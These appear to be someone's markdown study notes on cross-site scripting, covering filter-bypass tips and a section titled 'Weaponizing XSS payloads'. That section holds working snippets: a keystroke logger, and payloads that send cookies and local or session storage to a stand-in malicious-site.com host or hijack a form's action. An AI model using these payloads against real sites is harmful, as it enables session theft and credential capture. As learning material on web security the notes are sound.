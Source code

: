 - Filtering out tags
	- Test all the tag
- Filter out events
	- Test all the events
- Filtering out special characters
	- Test alternatives to special character

See [XXS Tests](./xss_tests.md)

- It is often times worth try to double URL encode you input.
	- Why?

- Try to avoid attack vectors where everyone will try XSS
	- The 1st search box on the home page

## [Weaponizing XSS payloads](#cross-site-scriptingxss)

### [Stealing information](#cross-site-scriptingxss)
- Redirect site to malicious site: `window.location='https://malicious-site.com?info=' + info`
- Send data to malicious site without redirect: `
- Mouse hover over element: `<a href="https://www.youtube.com/" onmouseover="window.location='https://malicious-site.com?info=' + info">Youtube</a>`
	- This could be blocked by Content Security Policy

#### [Key logger](#cross-site-scriptingxss)
- Can't use `fetch` because it's blocked by CORS

```javascript
document.addEventListener('keydown', (event) => {
    const script = document.createElement('script');
    script.src = 'http://malicious-site.com/?key=' + encodeURIComponent(event.key);
    document.body.appendChild(script);
});
```

### [What information to steal](#cross-site-scriptingxss)
- Cookies: `escape(document.cookie)`
	- `escape` URL encodes the cookie so it can be sent through the URL
- Storage: `escape(JSON.stringify(localStorage))` or `escape(JSON.stringify(sessionStorage))`

### [Manipulating actions](#cross-site-scriptingxss)
- Wait for elements to load: `<script>window.onload=function(){`
	- Making a comment: `document.getElementByName('comment')[0].innerHTML='Comment';document.getElementById('theform').submit();`
	- Changing action(where info is sent) of a form: `document.getElementById('theform').action='https://malicious-site.com'`
- `}</script>`


## [HTML encoding(search and replace) vs HTML sanitization(Allowing some elements)](#cross-site-scriptingxss)
- **HTML encoding** - Search and replace key characters to prevent XSS
- **HTML Sanitization** - Some user input need to allow certain HTML elements.
	- It can be very difficult to prevent XSS attacks. Often whitelists are used to prevent malicious HTML elements, but this may not be set up correctly.
	- Ex: Stylized emails with HTML and CSS
